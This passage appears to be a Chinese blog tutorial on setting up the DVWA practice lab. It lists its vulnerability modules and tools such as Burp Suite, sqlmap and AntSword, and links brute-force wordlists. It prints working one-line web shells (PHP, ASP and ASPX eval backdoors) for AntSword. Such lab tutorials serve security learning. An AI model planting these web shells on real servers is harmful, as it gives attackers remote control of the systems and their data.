 config/config.inc.php 文件配置:
```
$_DVWA[ 'recaptcha_public_key' ] & $_DVWA[ 'recaptcha_private_key' ] - 这里的值可以在此网址生成: https://www.google.com/recaptcha/admin/create  需要翻墙，这个秘钥是Insecure CAPTCHA漏洞用来生成验证码图片的秘钥，需要自己去申请创建一个
```
可以直接用这个

点击按钮 Create/Reset Database
连接数据库查看就生成两个表user和guestbook
## 漏洞模块测试
DVWA共有十四个模块，分别是：
- Brute Force（暴力破解）
- Command Injection（命令行注入）
- CSRF（跨站请求伪造）
- File Inclusion（文件包含）
- File Upload（文件上传）
- Insecure CAPTCHA （不安全的验证码）
- SQL Injection（SQL注入）
- SQL Injection（Blind）（SQL盲注）
- Weak Session IDs （弱会话ID）
- XSS (DOM) （DOM型跨站脚本）
- XSS（Reflected）（反射型跨站脚本）
- XSS（Stored）（存储型跨站脚本）
- CSP Bypass （CSP绕过）
- JavaScript

dvwa每个漏洞都有三个难度Low、Media、High，都可以使用各种方式攻破的。
可通过DVWA Security 设置难度
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/8bf5d74085548f584f7b6e461a2bf8c8.png)
通过phpstorm查看对应攻击的源代码，分析他的逻辑
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/7551eba74d19d7db4691f9c001e7cbcf.png)
### 使用软件
- SwitchyOmega：chrome浏览器设置代理的插件。
- BurpSuite ：用来抓包，漏洞重放等，进行web网站扫描。
- sqlmap：SQLMap 是一个自动化的SQL注入工具，其主要功能是扫描、发现并利用给定URL的SQL注入漏洞，内置了很多绕过插件，支持的数据库是MySQL 、Oracle 、PostgreSQL 、Microsoft SQL Server、Microsoft Access 、IBM DB2, SQ Lite 、Firebird 、Sybase和SAPMaxDB 。
- 中国蚁剑：[中国蚁剑](https://github.com/AntSwordProject/antSword/blob/master/README_CN.md)是一款开源的跨平台网站管理工具，它主要面向于合法授权的渗透测试安全人员以及进行常规操作的网站管理员，只要网站上传一句话木马，即可连接到web服务器。
php：<?php @eval($_post['ant']);?>
asp：<%eval request ("ant")%>
aspx：<%@ Page Language="Jscript"%> <%eval(Request.Item["ant"],"unsafe");%>

### Brute Force（暴力破解）
暴力破解，又叫撞库、穷举，使用大量的字典逐个在认证接口尝试登录，理论上，只要字典足够强大，破解总是会成功的。
阻止暴力破解的最有效方式是设置复杂度高的密码（英文字母大小写、数字、符号混合）。

而如果你的字典是从某网站泄露出来的，你使用它试图登陆其他网站，就便是撞库。撞库攻击的成功率高于暴力破解，因为你在A网站的用户名、密码通常和B网站的用户名、密码一致。

常用的开源的弱用户名密码字典有：
https://github.com/fuzz-security/SuperWordlist
https://github.com/NS-Sp4ce/Dict
https://github.com/mysticbinary/weakpass
